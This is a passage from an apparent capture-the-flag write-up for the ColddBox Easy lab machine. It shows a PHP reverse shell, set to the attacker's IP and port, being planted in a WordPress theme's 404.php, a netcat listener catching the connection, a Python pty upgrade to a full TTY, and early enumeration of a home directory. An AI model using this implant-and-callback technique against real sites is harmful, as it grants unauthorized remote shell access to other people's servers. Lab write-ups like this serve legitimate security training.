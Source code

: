 ```
$ip = '192.168.0.94';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
```

Afterwards, we can copy-paste the script into one of the theme pages. I chose `404.php`.

![image](img/reverse shell.jpg)

Now we just need to start a `nc` listener on our host and browse to the `404.php` page. This is located at `http://192.168.0.20/wp-content/themes/twentyfifteen/404.php`.

```
❯ nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.0.94] from (UNKNOWN) [192.168.0.20] 39596
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 02:52:42 up 34 min,  0 users,  load average: 4.46, 4.04, 2.79
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

And we have gained a `reverse-shell` on the host! Now we need to upgrate our `shell` to a full `tty`. We can execute a `python` one-liner to get a better shell, then using some `magic` by pressing `ctrl-z` to background the shell, executing `stty raw -echo`, `fg`, pressing `enter` twice, then `export TERM=screen`, we can get a nice, full `tty`.

```
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@ColddBox-Easy:/$ ^Z
[1]+  Stopped                 nc -lvnp 9001
kali@kali ~/Documents/colddboxeasy
❯ stty raw -echo
kali@kali ~/Documents/colddboxeasy
nc -lvnp 9001

www-data@ColddBox-Easy:/$ export TERM=screen
www-data@ColddBox-Easy:/$
```

We find that there is only one `home` directory, for the user `c0ldd`, and it contains `user.txt`, however we do not have the right permissions to `cat` the file.

```
www-data@ColddBox-Easy:/$ cd /home/c0ldd; ls -l
total 4
-rw-rw---- 1 c0ldd c0ldd 53 Sep 24  2020 user.txt
www-data@ColddBox-Easy:/home/c0ldd$ cat user.txt 
cat: user.txt: Permission denied
```
